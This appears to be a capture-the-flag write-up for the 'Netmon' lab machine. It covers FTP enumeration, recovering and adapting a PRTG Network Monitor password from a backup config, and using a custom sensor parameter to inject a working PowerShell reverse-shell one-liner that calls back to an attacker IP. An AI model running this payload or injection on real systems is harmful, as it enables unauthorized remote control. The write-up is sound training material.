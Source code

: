 ```yaml
---
layout: default
---
```


# Netmon

![](./01.png)

As per usual, we'll start with ```nmap```.

![](./02.png)

It looks like we have FTP, RPC, and HTTP services responding on the system.

Let's take a look at the FTP share to see what we have available.

![](./03.png)

If we dig down into the Users folder, we're able to access the user flag.  Mine kept opening blank in ```mousepad``` when opened from the share, so I copied it to my local machine and opened it.

![](./04.png)

If we further browse through the FTP share we find ```PRTG Setup Log.log``` located  in ```/Program Files (x86)/PRTG Network Monitor/```.

![](./05.png)

![](./06.png)

Looking at the contents of the file we find that the system is Windows version 10.0.14393, which is Windows 10 1607.

If we check HTTP on ports ```5985``` and ```47001```, we receive a 404.  So, being that we know HTTP is being served up, let's check port ```80``` to see if it just didn't respond to ```nmap``` for some reason.

![](./07.png)

If we look online for default credentials for PRTG Network Monitor, we find a username of "prtgadmin" with a matching password of "prtgadmin".  Let's give that whirl.

![](./08.png)

No luck there, so let's head back to the FTP share and poke around the file structure.  We already checked the PRTG Network Monitor install folder earlier, but didn't find any credentials.

So, where else does Windows install program data?  Let's check ```ProgramData```.

![](./09.png)

If we just look in the FTP share, we don't see the ```ProgramData``` folder as it's a hidden folder.  So, let's just try browsing to it manually.

![](./10.png)

Looks good, now let's dig deeper into the ```Paessler``` folder.

If we browse into the ```PRTG Network Monitor``` folder, we find a ```Configuration Auto-Backups``` folder, which contains a file called ```PRTG Configuration (Update to 18.1.37.13946).zip```.

![](./11.png)

Let's see what happens if we dig through the file.

![](./12.png)

Looks like we've found some credentials, however the password is encrypted.

Let's browse back up one directory.  If we look around we find a ```PRTG Configuration.old``` file, but this contains the same encrypted credentials.

However, if we look further, we also find a ```PRTG Configuration.old.bak``` file.

![](./13.png)

If we look through it, it has the same encrypted credentials as well, however, if we search for the dbpassword, those credentials are in plain text.

![](./14.png)

What are the chances this password will let us log in to the web console?

![](./15.png)

No such luck.  However, what if we iterate the password to another year?  The install log file we originally looked at has install dates from 2019, so let's give that a whirl.

![](./16.png)

Success!  Now that we have working credentials, lets see what we can do.

Let's add a new sensor.

![](./17.png)

We're going to create it on a new device, choosing the Windows Server group, and then specifying the loop back.

![](./18.png)

Now let's add a sensor under Device.

![](./19.png)

Next pick Custom Sensors and EXE/Script.

![](./20.png)

Let's pick "Demo Powershell Script - Returns a random integer value.ps1" for the EXE/Script and use the following as the parameters:

>```powershell
>";$client = New-Object System.Net.Sockets.TCPClient("10.10.██.█",1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();"
>```

![](./21.png)

Do not click continue yet.

Let's startup a netcat listener on the port we specified above.

![](./22.png)

Now that the listener is configured, click continue on the sensor creation.

Once the sensor creates and runs itself, we should have a reverse shell.

![](./23.png)

Now let's get the root flag.

![](./24.png)


___

[Back](../)
